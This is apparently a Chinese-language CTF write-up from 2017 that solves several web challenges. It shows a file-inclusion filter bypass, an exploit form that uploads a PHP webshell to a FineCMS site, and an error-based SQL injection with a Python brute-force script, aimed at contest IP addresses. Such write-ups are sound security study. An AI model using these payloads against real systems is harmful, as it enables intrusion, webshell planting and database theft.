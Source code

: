 ```yaml
---
title: 2017 慕测安恒杯部分题 WriteUp
tags:
  - CTF
  - WriteUp
  - 文件包含
  - 编辑器泄露
date: 2017-07-12 10:20:13
---
```


6月18日的线上赛，今天才补上wp，9月22日更新SQL注入题
<!-- more -->

## 1.根据ip查dns解析记录

题目原意是让我们用cmd的nslookup命令，我直接上dns反查网站查的

到这个网站查dns解析[https://www.boip.net/ipv4/](https://www.boip.net/ipv4/)

flag为`this-is-flag`

## 3.编辑器泄露

题目提示编辑器泄露,fuzz后下载到了`login.php.swp`，用`vim -r login.php.swp`恢复得到源码，看到明文账号密码，
```php
if ($userin=="admin94wo")
if($passin=="ca1buda0mima7ah4ha")
```
用账号密码登录login.php得到flag，`flag{b4ckup_1s_normal}`

## 4.文件包含

fuzz后发现 &lt; 被过滤了，构造post file=.&lt;./.&lt;./.&lt;./.&lt;./.&lt;./flag 提交得到flag，`flag{To0_young_2_simple!}`

## 5.综合渗透

题目提示让我们复现exp，该站用的是`finecms`

百度得到此cms的一个上传漏洞，构造html文件如下，上传一个`phtml`后缀的一句话上去，菜刀连接在`/flag`得到flag，`flag{o1d_bug_t0_send_point!}`

```html
<!DOCTYPE html>
<html>
    <head>
    <meta charset=”utf-8″>
    <title>Finecms ajaxswfupload exp</title>
    </head>
    <body>
        <form action=”http://114.55.88.132:20580/index.php?c=attachment&a=ajaxswfupload” method=”POST” enctype=”multipart/form-data”>
            <input type=”file” name=”Filedata”>
            <input type=”hidden” name=”type” value=”phtml”>
            <input type=”hidden” name=”size” value=”100″>
            <input type=”submit” name=”submit” value=”上传文件”>
        </form>
    </body>
</html>
```

## 6.sql注入

这道题到最后也没做出来，报错注入注，过滤了`union`和`column_name`还有`*`，不知道字段名是啥

参考了[http://www.wupco.cn/?p=3764](http://www.wupco.cn/?p=3764)  
从该文章中可以得知这道注入题的核心代码如下
```php
$sql = "desc `error_{$table}`";
$res = mysql_query($sql);
if(empty(mysql_fetch_array($res))){
    echo "<center>no table detail</center>";
    die();
}

$sql = "select * from error_${table} where id = $id";
```
可以看出通过`desc`语句判断table是否存在，再执行下一个sql语句  
DESC的语法如下  
```
DESC tbl_name [col_name | wild]
```
构造payload如下  
```
http://114.55.36.69:20680/index.php?table=flag` `a%&id=3
```
python脚本如下
```python
#!/usr/bin/env
# -*- coding: utf-8 -*-
import requests as r
r1=r.session()
s="abcdefghijklmnopqrstuvwxyz1234567890_"
flag=""
for i in range(50):
  url="http://114.55.36.69:20680/index.php?table=flag` `{0}%&id=3"
  for j in s:
    url2=url.format(str(flag+j))
    r2=r1.get(url2)
    if "SQL" in r2.text:
      flag+=j
      print flag
      break
```
得到`error_flag`表的字段名为`flag_you_will_never_know`  
再使用报错注入查询即可拿到flag  
```
http://114.55.36.69:20680/index.php?table=news&id=3 -updatexml(1,concat('a=.',(select flag_you_will_never_know from error_flag)),1)#
```